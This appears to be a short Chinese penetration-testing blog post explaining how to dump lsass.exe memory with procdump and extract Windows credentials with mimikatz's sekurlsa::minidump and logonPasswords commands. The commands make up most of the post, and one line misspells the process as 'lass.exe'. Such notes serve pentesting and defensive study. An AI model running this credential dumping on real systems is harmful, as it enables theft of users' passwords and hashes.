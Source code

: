```yaml
---
title: "Procdump 导出密码"
date: 2019-07-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mimikatz']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



procdump 是微软官方的一款用于调试的工具, 其用途是导出本地进程的内存文件.

lsass.exe 本地安全权限服务, 通过导出 lass.exe 的内存文件配合 mimikatz 可读取用户 Hash

<!--more-->

服务器执行.

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
procdump64.exe -accepteula -ma lass.exe lsass.dmp
```

本地读取时要注意, 系统必须符合服务器的环境.

```
sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

![procdump getpass](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/procdump_getpass.jpg)